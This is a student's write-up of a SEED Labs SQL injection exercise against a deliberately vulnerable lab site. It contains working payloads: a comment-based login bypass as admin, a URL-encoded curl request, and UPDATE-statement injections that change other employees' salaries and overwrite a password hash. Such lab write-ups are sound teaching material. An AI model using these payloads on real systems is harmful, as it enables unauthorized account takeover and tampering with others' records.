 
# SQL Injection

## Task 1: Get Familiar with SQL Statements

After configuring the mysql container, we can see the information of the credential database:

![""](task1.png)

## Task 2.1

In order to perform a sql injection attack in this case, we can can take a look at the WHERE part in the sql query.

```SQL

WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";

```

We can just type in the username input, `admin'#` and this will turn the statement into:


```SQL

WHERE name= ’admin’#’ and Password=’$hashed_pwd’";

```

Which makes the code after # to be commented, and only searching where the username is admin.

![""](task2_1a.png)

![""](task2_1b.png)


## Task 2.2

In this task, all that we need to do, is use the same strategy as before, but we need to encode the special characters we use (' and # that encoded are %27 and %23)

By using the command: `curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=11'`

We receive the html of the admin page:

![""](task2_2a.png)

Or we can just type the encoded url in the browser:

![""](task2_2b.png)


## Task 2.3

In this case, an attack with 2 statements doesn't work because of the use of mysqli::query().
This API does not allow multiple queries to in the database server.

However, it's still possible to use 2 statements for an sql injection attack if mysqli::multi_query() is used. For security reasons, query() should be used instead of multi_query(). 


## Task 3.1

To modify the salary of alice we can log in into her account using the same method as we used for the admin in Task 2.1, and enter the edit profile page.

This is the UPDATE Statement used:

```SQL

"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";

```

We can just add another parameter update using sql injection. Like this:

![""](task3_1a.png)

This way, the update statement will be:
```SQL

UPDATE credential SET nickname='alice',email='a',salary='80000',address='',PhoneNumber='' where ID=$id;

```

This way we can update the salary of alice according to what we want.

![""](task3_1b.png)

## Task 3.2  

We just increased our salary. Now, it's time for us to punish our boss, Boby!

In order to reduce his salary to just one dollar, we can alter the update statement, just like before, by typing: `Loser',salary=1 where Name='Boby'#`.

Just like this:

![""](task3_2a.png)

And now we can see that boby's salary has indeed changed:

![""](task3_2b.png)



## Task 3.3


Let's change boby's password to "vengeance".

The sha1 hash is: 7e87ef124a4e96ccaea057ed975dd42743689e3f

In order to change his password to revenge, we can use a similar technique as before.
Just by typing: `Loser',password='7e87ef124a4e96ccaea057ed975dd42743689e3f' where Name='Boby'#`.

And as we can see in the database, the hash was changed according to what we wanted.

![""](task3_3a.png)


Now, if we try to login into boby's account:


![""](task3_3b.png)


![""](task3_3c.png)


We can see that the login was successful! 











